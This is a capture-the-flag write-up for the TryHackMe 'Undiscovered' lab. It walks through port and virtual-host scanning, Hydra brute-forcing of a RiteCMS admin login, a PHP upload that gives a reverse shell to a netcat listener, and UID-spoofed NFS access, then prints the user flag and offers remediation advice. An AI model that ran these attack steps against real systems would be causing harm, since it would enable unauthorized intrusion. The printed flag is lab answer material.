





# TryHackMe: Undiscovered — Write-up (Part 1)

> **Spoiler warning:** This write-up documents an authorized TryHackMe lab and includes the user flag. It covers initial access and access to William's files over NFS; root access has not yet been obtained.

**Difficulty:** Medium  
**Category:** Web Enumeration, CMS Exploitation, NFS Misconfiguration  
**Target:** `10.128.130.3` (`undiscovered.thm`)  
**Attacker (Kali):** `192.168.150.170`  
**Tools:** Nmap, ffuf, Hydra, Netcat, NFS, `setpriv`

## Overview

The attack begins with a full port scan that reveals an Apache web server and an NFS service. Virtual-host fuzzing exposes several websites. On `deliver.undiscovered.thm`, an accessible SQL file provides a useful username, and a password attack gives access to the CMS administration panel. Its file manager allows a PHP file to be uploaded to a web-accessible directory, resulting in a reverse shell as `www-data`.

We then return to NFS, mount William's home directory, and use his numeric UID/GID to access files that our local root account could not read. This leads to the **user flag**.

**Attack path:**

```text
Nmap → Virtual-host fuzzing → deliver.undiscovered.thm
      → Exposed SQL files → CMS admin login
      → PHP file upload → Reverse shell (www-data)
      → NFS mount → UID/GID-based access → user.txt
```

---

## 1. Reconnaissance & Enumeration

### 1.1. Port scanning

Start with a full TCP port scan, including default scripts and service detection:

```bash
nmap -sC -sV -p- -T4 10.128.130.3
```

Relevant results:

```text
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp    open  http     Apache httpd 2.4.18
111/tcp   open  rpcbind  2-4 (RPC #100000)
2049/tcp  open  nfs      2-4 (RPC #100003)
45329/tcp open  nlockmgr 1-4 (RPC #100021)
```

The important findings are **HTTP (80)** for web enumeration and **NFS (2049)**, which may expose shared directories. SSH is also available on port 22.

Nmap reports that the HTTP service redirects to `http://undiscovered.thm`. Add the machine's hostname to `/etc/hosts` so it resolves to the lab IP:

```text
10.128.130.3 undiscovered.thm
```

### 1.2. Virtual-host enumeration

Next, use `ffuf` to test different `Host` headers. This is **virtual-host fuzzing**, rather than DNS enumeration: every request goes to the same target, but with a different hostname in the HTTP header.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u http://undiscovered.thm \
  -H "Host: FUZZ.undiscovered.thm" -mc 200
```

The scan returns several candidates, including:

```text
manager      [Status: 200, Size: 4584, Lines: 69]
dashboard    [Status: 200, Size: 4626, Lines: 69]
deliver      [Status: 200, Size: 4650, Lines: 83]
maintenance  [Status: 200, Size: 4668, Lines: 69]
booking      [Status: 200, Size: 4599, Lines: 84]
```

A `200 OK` response alone does not prove a virtual host is unique, so the pages need to be inspected. To visit them in a browser, add the discovered hostnames to `/etc/hosts`, for example:

```text
10.128.130.3 undiscovered.thm manager.undiscovered.thm deliver.undiscovered.thm
```

Browsing `manager.undiscovered.thm` shows a **RiteCMS** page advertising version **2.2.1**.



The `deliver` virtual host is particularly interesting, so we enumerate its directories next.

### 1.3. Directory fuzzing on `deliver`

```bash
ffuf -u http://deliver.undiscovered.thm/FUZZ \
  -w /usr/share/wordlists/dirb/common.txt -ac
```

Important paths:

```text
cms        [Status: 301]
data       [Status: 301]
files      [Status: 301]
media      [Status: 301]
templates  [Status: 301]
index.php  [Status: 200]
```

The `-ac` option automatically calibrates the scan to help remove false positives. The `/cms` directory suggests a CMS installation, while `/data` deserves closer inspection.

---

## 2. Exposed SQL Files & CMS Credentials

### 2.1. Find the SQL initialization files

Opening the following URL reveals an enabled directory listing:

```text
http://deliver.undiscovered.thm/data/sql/
```



One of the files is `sqlite.user.initial.sql`. After downloading and opening it, we find a table definition and a default record for the **`admin`** user:

```sql
CREATE TABLE rite_userdata (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name varchar(255) NOT NULL default '',
    type tinyint(4) NOT NULL default '0',
    pw varchar(255) NOT NULL default '',
    last_login int(11) NOT NULL default '0',
    wysiwyg tinyint(4) NOT NULL default '0'
);

INSERT INTO rite_userdata VALUES (1, 'admin', 1, '75470d05abd21fb5e84e735d2bc595e2f7ecc5c7a5e98ad0d7', 1230764400, 0);
```



This file confirms that the CMS uses an `admin` account in its initial database data. It does **not** establish the current administrator password, so the login still needs to be tested.

### 2.2. Test the CMS login with Hydra

Using the identified username, run Hydra against the CMS login form with the `rockyou.txt` password list:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  deliver.undiscovered.thm http-post-form \
  "/cms/index.php:username=^USER^&userpw=^PASS^:User unknown or password wrong" -f
```

Here, `^USER^` and `^PASS^` are replaced with username/password candidates. The final string is the message Hydra uses to identify a failed login, and `-f` stops after a valid pair is found.

Hydra reports:

```text
[80][http-post-form] host: deliver.undiscovered.thm
login: admin   password: liverpool
1 of 1 target successfully completed, 1 valid password found
```

We can now authenticate to the CMS as `admin`.

---

## 3. Initial Access — PHP Upload to Reverse Shell

### 3.1. Access the file manager

After logging into the CMS, open **Administration → File Manager**. The interface contains an upload option for the `media` directory.




A PHP file named `pwned.php` is uploaded successfully. It appears in the file manager with the type `text/x-php`.


### 3.2. Locate the uploaded file

The `/media/` directory is publicly browsable:

```text
http://deliver.undiscovered.thm/media/
```

Its directory listing shows the uploaded file:

```text
pwned.php
```


**Finding:** The CMS permits a PHP upload into a web-accessible folder. Because the uploaded PHP file can be requested through the web server, it can be used to execute server-side code.

### 3.3. Receive a reverse shell

On Kali, start a Netcat listener:

```bash
nc -lvnp 1234
```

Request the uploaded PHP file from the browser:

```text
http://deliver.undiscovered.thm/media/pwned.php
```

The reverse-shell PHP code connects back to the listener at `192.168.150.170:1234`. The exact contents of `pwned.php` were not included in the notes for this write-up.

Verify the account in the received shell:

```bash
whoami
```

```text
www-data
```



**Initial access obtained:** We have a shell as **`www-data`**, the account used by the web server. This is not root access.

---

## 4. NFS Enumeration — Access to William's Files

### 4.1. Mount William's shared directory

The Nmap scan showed NFS on port 2049. We mount the remote `/home/william` directory onto `/mnt/` on Kali:

```bash
sudo mount -t nfs 10.128.130.3:/home/william /mnt/
```

Verify that it is mounted:

```bash
mount | grep nfs
```

```text
10.128.130.3:/home/william on /mnt type nfs4
(rw,relatime,vers=4.2,proto=tcp,sec=sys,...)
```

The mount succeeds, but trying to list its contents as root fails:

```bash
ls -la /mnt/
```

```text
ls: cannot open directory '/mnt/': Permission denied
```

Inspecting the local mount point shows:

```bash
stat /mnt/
```

```text
Access: (0750/drwxr-x---)
Uid: (65534/ nobody)   Gid: (65534/ nogroup)
```

The `750` permissions allow access only to the owner and group. Although the mount uses `rw`, that does not override directory permissions. The `nobody` display may be related to NFS identity mapping or root squashing; it does not identify the cause on its own.

### 4.2. Identify William's numeric UID and GID

From the **`www-data` shell on the target**, check William's account and home-directory ownership:

```bash
id william
ls -ldn /home/william
```

```text
uid=3003(william) gid=3003(william) groups=3003(william)
drwxr-x--- 4 3003 3003 4096 Sep 10 2020 /home/william
```

William owns the directory, and his **UID and GID are both 3003**.

### 4.3. Access the NFS share with UID 3003

On **Kali**, run `ls` with the same numerical identity:

```bash
sudo setpriv --reuid=3003 --regid=3003 --clear-groups ls -la /mnt/
```

This time, the directory listing succeeds:

```text
drwxr-x---  4 nobody nogroup 4096 Sep  9  2020 .
-rwxr-xr-x  1 root   root     128 Sep  4  2020 admin.sh
-rwsrwsr-x  1 nobody nogroup 8776 Sep  4  2020 script
-rw-r-----  1 root   nogroup   38 Sep  9  2020 user.txt
```

**Why it works:** The NFS mount uses `sec=sys` (`AUTH_SYS`), which relies on numeric user and group identities supplied in client requests. In this lab, making the request with UID/GID `3003` provides access that was denied to our local root process. It does **not** turn our Kali shell into William on the target machine.

The `script` binary also has SUID/SGID bits set, making it worth examining later. We stop here because this part of the write-up covers only the completed steps.

### 4.4. Read the user flag

Run `cat` with the same UID/GID:

```bash
sudo setpriv --reuid=3003 --regid=3003 --clear-groups cat /mnt/user.txt
```

```text
THM{8d7b7299cccd1796a61915901d0e091c}
```

**User flag obtained!**

---

## 5. The Defender's View (Remediation)

These findings demonstrate several avoidable weaknesses:

1. **Protect CMS credentials:** Use strong, unique passwords and rate-limit login attempts. This makes password-list attacks against administrator accounts much less effective.
2. **Prevent executable uploads:** Restrict permitted file types and store uploaded files outside executable web directories. A media upload should not allow PHP execution.
3. **Disable unnecessary directory listings:** Exposed `/data/sql/` and `/media/` listings reveal internal files and uploaded content. SQL initialization files should not be publicly accessible.
4. **Secure NFS exports:** Restrict the clients allowed to mount sensitive shares. Do not export user home directories broadly, and avoid relying only on client-supplied `AUTH_SYS` UID/GID values for security; stronger NFS authentication and authorization may be appropriate.

## 6. Current Progress

| Objective | Result |
|---|---|
| Web enumeration | Multiple virtual hosts identified |
| CMS access | `admin` login obtained |
| Initial shell | `www-data` |
| NFS access | William's mounted home directory accessible with UID/GID 3003 |
| User flag | `THM{8d7b7299cccd1796a61915901d0e091c}` |
| Root access | Not yet documented |

**Next investigation:** Examine the unusual `script` binary and other local privilege-escalation possibilities before adding Part 2. This write-up intentionally ends at the user flag.
